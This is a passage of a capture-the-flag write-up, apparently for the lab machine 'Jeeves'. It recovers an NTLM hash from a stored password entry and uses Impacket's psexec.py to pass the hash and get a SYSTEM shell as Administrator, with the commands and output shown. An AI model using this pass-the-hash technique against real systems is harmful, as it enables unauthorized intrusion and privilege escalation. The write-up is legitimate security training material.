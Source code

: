
### Exploiting Admin

Checking for other users in the victim machine,

```c
C:\Users\kohsuke\Documents>net user
net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  
The command completed successfully.

```

After trial and error of the above combination,

```c
Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes:
```

This one seems suspicious

```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` looks like a ```NTLM``` hash

Lets use ```psexec.exe``` to get shell of ```Administrator``` using ```SMB``` via ```NTLM``` hash / ```Passs The Hash```,

For more on [psexec.exe](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md)

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ psexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00" Administrator@10.10.10.63 
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file nPBVBbGz.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service eHiw on 10.10.10.63.....
[*] Starting service eHiw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

...
 
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
```